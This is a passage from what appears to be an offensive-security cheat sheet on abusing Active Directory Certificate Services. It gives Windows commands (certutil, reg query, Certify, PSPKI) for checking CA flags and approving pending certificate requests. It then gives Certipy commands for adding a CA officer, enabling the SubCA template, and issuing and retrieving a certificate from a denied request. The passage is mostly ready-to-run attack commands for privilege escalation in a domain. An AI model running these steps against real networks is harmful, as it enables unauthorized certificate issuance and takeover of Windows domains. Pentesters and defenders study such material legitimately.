 ```powershell
certutil.exe -config "CA.consoto.local\CA" -getreg "policy\EditFlags"
reg query \\CA.contoso.com\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\contoso-CA-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy /v EditFlags
```

* _If an attacker gains control over a principal that has the **ManageCertificates** right over the CA, he can remotely approve pending certificate requests, subvertnig the "CA certificate manager approval" protection_

```powershell
# Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.contoso.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
Certify.exe download /ca:CA.contoso.local\CA01 /id:1337
```

##### Linux

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2 attribute`,the built-in template **SubCA** can be usefull.

It is vulnerable to the **ESC1** attack, but only **Domain Admins** and **Enterprise Admins** can enroll in it. If a standard user try to enroll in it with [Certipy](https://github.com/ly4k/Certipy), he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the **ManageCA** _and_ **ManageCertificates** rights to validate the failed request. Then, the user can retrieve the issued certificate by specifying the same ID.

* With **ManageCA** right it is possible to promote new officier and enable templates

```bash
# Add a new officier
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -add-officer 'user'

# List all the templates
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -enable-template 'SubCA'
```

* With **ManageCertificates** AND **ManageCA** it is possible to issue certificate from failed request

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -retrieve 100
```
